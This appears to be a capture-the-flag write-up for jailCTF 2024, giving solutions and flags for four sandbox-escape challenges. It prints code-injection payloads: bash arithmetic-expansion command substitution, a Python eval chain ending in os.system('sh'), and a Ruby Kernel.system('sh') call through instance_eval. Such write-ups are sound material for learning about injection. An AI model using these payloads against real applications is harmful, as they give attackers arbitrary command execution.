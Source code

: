# jailCTF 2024

https://ctf.pyjail.club/

| Place    | Score |
| -------- | ----- |
| 64/715 | 951  |

Very interesting CTF, focusing on jailbreaking techniques.

## blind-calc

The source code probably looks like this

```shell
read -p "Enter math > " expr
a=$(( \
expr \
))
echo $a
```

ref: https://www.nccgroup.com/us/research-blog/shell-arithmetic-expansion-and-evaluation-abuse/

**tl;dr:** `arr[$(COMMAND)]`

<details>
  <summary>FLAG</summary>
  <tt>jail{blind-calc_9c701e8c09f6cc0edd6}</tt>
</details>

## filter'd

```python
a=input;f(a())
M=999;f(a())
__import__('os').system('sh')
```

<details>
  <summary>FLAG</summary>
  <tt>jail{can_you_repeat_that_for_me?_aacb7144d2c}</tt>
</details>

## parity 1

The input string's ascii value must be even, odd, even, odd,....

Ultimately, we want to build `eval("eval(input()")`. Because the ascii value of "eval" is odd, even, odd, even.

The table lists import elements we can use to build the payload.

| char          | ord%2 |
| ------------- | ----- |
| `(`           | 0     |
| `)`           | 1     |
| `tab` or `\t` | 1     |
| `"`           | 0     |
| ` `           | 0     |
| `'`           | 1     |

And there are some Python syntax that allow us to do so.

- String concat: `"cat"'dog'` return `"catdog"`

- In the eval's input string:
  
  - Allowing tab and space inside parentheses
  
  - Allowing tab and space between funtion name and parentheses
  
  - Allowing tab and space in the start.

After some painful process, I construct a string that can let us execute arbitrary python code:

` eval\t(\' eval\' \'(\'"i"\'n\' + \'p\'"u"\'t\' \'(\'")"\' ) \' )`

<details>
  <summary>FLAG</summary>
  <tt>jail{parity_41f5812e8c0cd9}</tt>
</details>

## SUS-Calculator

The user input can control which instance method to use, however, the arguments must be accept by the method.
The payload format will loog like
```
<argument 1> <instance method> <argument 2>
```

Luckily, methods `instance_eval` accept two arguement, the payload is 

```
Kernel.system("sh") instance_eval 1
```

